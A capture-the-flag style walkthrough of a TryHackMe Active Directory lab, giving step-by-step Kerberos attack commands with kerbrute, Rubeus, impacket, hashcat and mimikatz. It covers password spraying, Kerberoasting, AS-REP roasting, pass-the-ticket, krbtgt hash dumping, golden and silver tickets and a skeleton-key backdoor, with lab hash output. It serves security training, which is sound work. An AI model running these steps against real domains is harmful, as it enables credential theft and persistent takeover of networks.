

# Attacking kerberos

|  |
|:--:|
| The example was made from doing the [THM: Attacking Kerberos room](https://tryhackme.com/room/attackingkerberos) |

## Attack tree

```text
1 Discovery
    1.1 Scan ports
    1.2 Enumerate 139/445
2 Enumerate DC users (AND)
3 Harvesting & brute-forcing tickets
4 Kerberoasting
5 AS-REP roasting
6 Pass the ticket
7 Golden/silver ticket attacks
    7.1 Dump the krbtgt hash
    7.2 Create a golden/silver ticket
    7.3 Use the ticket to access other machines
8 Kerberos backdoors
```

## Scan with nmap

    # nmap -sV -sC -T4 <Machine_IP>

## Enumerate DC users

Add the following line to `/etc/hosts` file (as root):

    <IP address target> CONTROLLER.local

Enumerate users with kerbrute

    /opt/kerbrute/kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt -t 100



## Harvesting & password spraying

### Harvesting

ssh into the machine:

    $ ssh administrator@<Machine_IP>

Move to the directory where Rubeus is:

    cd Downloads
    dir

Harvest the tickets:

    Rubeus.exe harvest /interval:30

### Password spraying

Before password spraying with Rubeus, add the domain controller domain name to the **windows** host file. 
Add the IP and domain name to the hosts file from the machine: 

    echo <MACHINE_IP> CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts

navigate to the directory Rubeus is in:

    cd Downloads

Password spraying (with a given password and "spray" it against all found users then give the .kirbi TGT for that user):

    Rubeus.exe brute /password:Password1 /noticket

Success! Machine1.

## Kerberoasting

If the service has a registered SPN then it can be Kerberoastable:

    Rubeus.exe kerberoast

Roast with impacket:

    cd /opt/impacket/examples
    sudo python GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip <Machine_IP> -request

The result is 2 service account with their hashes. Save both in separate files (sql-roast.txt and 
http-roast.txt), and crack with hashcat using the provided Pass.txt.

    wget https://raw.githubusercontent.com/Cryilllic/Active-Directory-Wordlists/master/Pass.txt
    hashcat -m 13100 -a 0 http-roast.txt Pass.txt
    hashcat -m 13100 -a 0 sql-roast.txt Pass.txt

## AS-REP Roasting

ssh into the machine:

    $ ssh administrator@<Machine_IP>

Move to the directory where Rubeus is:

    cd Downloads
    dir

Roast:

    Rubeus.exe asreproast

Two AS-REP hashes. One for Admin2 and one for user3. And this is where it gets tricky. I was stuck 
here for a full day.

Copy the hashes separately into file on the linux machine (user3.txt and admin2.txt):

* name the file after the found username followed by .txt
* Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User…..
* Make sure there are no spaces when saving it to a txt file

The hash type of AS-REP Roasting is Kerberos 5 AS-REP etype 23 (mode 18200 for hashcat):

    hashcat -m 18200 user3.txt Pass.txt
    hashcat -m 18200 admin2.txt Pass.txt

## Pass the ticket

ssh into the machine:

    $ ssh administrator@<Machine_IP>

Move to the directory where Mimikatz is and start her up:

    cd Downloads
    dir
    mimikatz.exe

If the following command does not return `output '20' OK`, you do not have the administrator privileges to run mimikatz.
    
    mimikatz # privilege::debug
    output '20' OK

Export all `.kirbi` tickets into the directory that you are currently in:

    mimikatz # sekurlsa::tickets /export

It takes a bit of puzzling to find the Administrator ticket. But I found it:

```text
        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 9/20/2022 8:34:55 AM ; 9/20/2022 6:34:55 PM ; 9/27/2022 8:34:55 AM
           Service Name (02) : krbtgt ; CONTROLLER.LOCAL ; @ CONTROLLER.LOCAL
           Target Name  (02) : krbtgt ; CONTROLLER.LOCAL ; @ CONTROLLER.LOCAL
           Client Name  (01) : Administrator ; @ CONTROLLER.LOCAL ( CONTROLLER.LOCAL )
           Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             8d36d5959add7925a6858358c89c110542d58859ed2322ceb064db6f74238534
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
           * Saved to file [0;1c4707]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi !
```

Cache and impersonate the ticket:

    mimikatz # kerberos::ptt [0;1c4707]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi
    
    * File: '[0;1c4707]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi': OK

## Golden/silver ticket attacks

### Dump the sqlservice and Administrator hash

SQLservice:

```text
mimikatz # lsadump::lsa /inject /name:sqlservice 
Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860 

RID  : 00000455 (1109)
User : sqlservice

* Primary
    NTLM : cd40c9ed96265531b21fc5b1dafcfb0a
    LM   :
  Hash NTLM: cd40c9ed96265531b21fc5b1dafcfb0a
...
```
Administrator:

```text
mimikatz # lsadump::lsa /inject /name:Administrator 
Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860 

RID  : 000001f4 (500)
User : Administrator

 * Primary
    NTLM : 2777b7fec870e04dda00cd7260f7bee6
    LM   :
  Hash NTLM: 2777b7fec870e04dda00cd7260f7bee6 
...
```

### Dump the krbtgt hash

ssh into the machine:

    $ ssh administrator@<Machine_IP>

Navigate to the directory mimikatz is in and run mimikatz:

    cd downloads && mimikatz.exe

Ensure this outputs [privilege '20' ok]:

    privilege::debug

Dump the hash as well as the security identifier needed to create a Golden Ticket. To create a silver ticket, 
change the `/name:` to dump the hash of either a domain admin account or a service account such as the SQLService 
account.

    lsadump::lsa /inject /name:krbtgt

### Create a golden/silver ticket

Create a golden ticket to create a silver ticket (put a service NTLM hash into <krbtgt>, the sid of the service 
account into <sid>, and set the <id> to 1103:

    Kerberos::golden /user:<username> /domain:controller.local /sid:<sid> /krbtgt:<krbtgt> /id<id>:

The Administrator and sqlservice hashes can be used to create silver tickets.

### Use the ticket to access other machines

    mimikatz # misc::cmd

Access machines. It depends on the privileges of the user the ticket was taken from. With a ticket from krbtgt,
you have access to the ENTIRE network, hence the name golden ticket.

## Kerberos backdoors

ssh into the machine:

    $ ssh administrator@<Machine_IP>

Move to the directory where Mimikatz is and start her up:

    cd Downloads
    dir
    mimikatz.exe

If the following command does not return `output '20' OK`, you do not have the administrator privileges to run mimikatz.
    
    mimikatz # privilege::debug
    output '20' OK

Install the skeleton key:

    mimikatz # misc::skeleton

Access the forest (The share will now be accessible without the need for the Administrators 
password):

    net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz

## Tools

* [Kerbrute](https://github.com/ropnop/kerbrute/releases/)

```text
# chmod +x filename
# mkdir /opt/kerbrute
# cp kerbrute_linux_amd64 /opt/kerbrute/kerbrute
```

* [Mimikatz](https://github.com/gentilkiwi/mimikatz)